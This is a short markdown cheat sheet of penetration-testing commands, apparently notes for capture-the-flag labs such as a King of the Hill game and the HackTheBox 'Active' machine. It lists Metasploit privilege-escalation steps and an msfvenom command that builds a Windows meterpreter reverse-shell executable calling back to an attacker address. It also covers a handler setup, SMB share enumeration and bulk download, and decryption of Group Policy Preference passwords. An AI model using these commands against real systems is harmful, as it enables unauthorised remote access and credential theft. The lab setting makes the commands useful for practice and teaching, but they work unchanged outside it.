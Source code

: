 ## Privilege Escalation

- **Run Local Exploit Suggester**: `run post/multi/recon/local_exploit_suggester`
- **Get Privileges**: `getprivs`

## Others

- **Session Commands**: `sessions || sessions 1/2/3 || set sessions 2/1/3`
- **Gobuster**: `gobuster [mode] -u [target ip] -w [wordlist]`

## King of the Hill

### Generate Payload

- **MSFVenom**: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.1.218 LPORT=1337 -f exe > shell.exe`

### File Transfer

- **PowerShell**: `Invoke-WebRequest -uri <URL> -outfile <filename>`

### HTTP Server

- **Python**: `python3 -m http.server 8008`

### Metasploit Handler

1. **Start Handler**: `user multi/handler`
2. **Set Payload**: `set payload windows/meterpreter/reverse_tcp`

## Active

### SMB Enumeration
- `smbclient -L //10.10.10.100` (List SMB shares)
- `smbclient //10.10.10.100/Replication`
- `smbclient //10.10.10.100/Users`

### More Enumeration
- `enum4linux <ip>`
- `smbmap -H 10.10.10.100` (-H → hosts)
- `smbclient //10.10.10.100/Replication -c 'recurse;ls'` (List everything)
- `./smbmap -R Replication -H 10.10.10.100` (List everything)

### GPP Decrypt & Policy
- `gpp-decrypt <encrypted_password>` 
- `\\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\windows NT\SecEdit\`

### File Download Commands
- `recurse on`
- `prompt off`
- `mls`
- `mget *`
